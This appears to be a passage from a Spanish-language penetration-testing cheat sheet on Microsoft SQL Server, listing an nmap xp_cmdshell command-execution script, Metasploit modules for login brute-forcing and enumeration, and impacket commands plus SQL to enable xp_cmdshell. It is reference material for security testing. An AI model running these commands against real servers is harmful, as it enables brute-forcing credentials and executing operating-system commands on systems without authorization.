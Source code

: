 ```bash
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=<nombre_usuario>,mssql.password=<contraseña_usuario>,ms-sql-xp-cmdshell.cmd='<comando_a_usar>' <IP>
Ej: nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=root,mssql.password=passwd123$!,ms-sql-xp-cmdshell.cmd='ifconfig' 192.168.1.15
```

<br>

<h3 id="MSSQL2">Módulos de Metasploit para MSSQL</h3>

```bash
# Módulo que aplica fuerza bruta al login de SQL
auxiliary/scanner/mssql/mssql_login


# Módulo que audita el servidor de SQL, se necesita un usuario y contraseña con privilegios de administrador
auxiliary/admin/mssql/mssql_enum


# Módulo para obtener una lista de todos los logins del servidor SQL
auxiliary/admin/mssql/mssql_enum_sql_logins


# Módulo que ejecuta comandos de Windows mediante la instancia xp_cmdshell
auxiliary/admin/mssql/mssql_exec


# Módulo que aplica fuerza bruta para identificar las cuentas de dominio del servidor SQL, es decir, los usuarios del sistema
auxiliary/admin/mssql/mssql_enum_domain_accounts


# Módulo que aplica fuerza bruta al login de MSSQL
exploit/windows/mssql/mssql_login
```

<br>

<h3 id="MSSQL3">Conectandonos a MSSQL y Activando xp_cmdshell</h3>

```bash
# Conectandonos al MSSQL
impacket-mssqlclient <dominio>/<usuario>:<contraseña>@<IP>


# Activando xp_cmdshell
enable_xp_cmdshell


# Activando xp_cmdshell manualmente
SP_CONFIGURE "show advanced options", 1;
RECONFIGURE;
SP_CONFIGURE "xp_cmdshell", 1;
RECONFIGURE;
```
